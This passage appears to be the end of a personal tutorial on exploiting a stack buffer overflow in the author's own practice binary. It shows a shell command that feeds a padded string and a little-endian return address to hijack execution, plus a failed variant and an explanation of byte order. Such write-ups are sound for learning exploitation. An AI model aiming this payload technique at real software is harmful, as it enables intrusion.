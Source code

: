 Yeah, looks about right!

### Success

Let's actually try passing that string as an argument:

```sh
$ ./vuln $(echo -e '123456781234567812345678123456781234\x94\x04\x01\x00')
-bash: warning: command substitution: ignored null byte in input
Pwned.
Segmentation fault
$ echo $?
139
```

WOOOOOOO! 🎉 IT WORKED! Except the part where it did not exit
cleanly and the warning from `echo`...

Luckily, I do not care, so we are going to ignore all that. It
works, our exploit was successful.

## Afterword

In practice while trying to achieve this I had spent *way* longer
trying to figure out what to do then this might make it seem like.

For example, I initially did not realize that I should be
reversing the bytes due to the little-endianness. This had led me
to spend the majority of a day on trying to figure out what is
wrong, and that is what actually brought me to learn how to
inspect the execution with GDB somewhat thoroughly.

Had I not made that mistake, I probably would have just gotten the
exploit to work and would have learned much less from it.

Note that I flipped the bytes in the address `0x00010494`. That
is, I put `\x94\x04\x01\x00` instead of `\x00\x01\x04\x94`. This
is essential. Remember? It was little endian. This is what would
have happened if I didn't reverse it:

```sh
$ ./vuln $(echo -e '123456781234567812345678123456781234\x00\x01\x05\x04')
-bash: warning: command substitution: ignored null byte in input
Segmentation fault
```

Yeah... It just doesn't even overwrite the whole byte because of
the null byte signifying the end of the string.
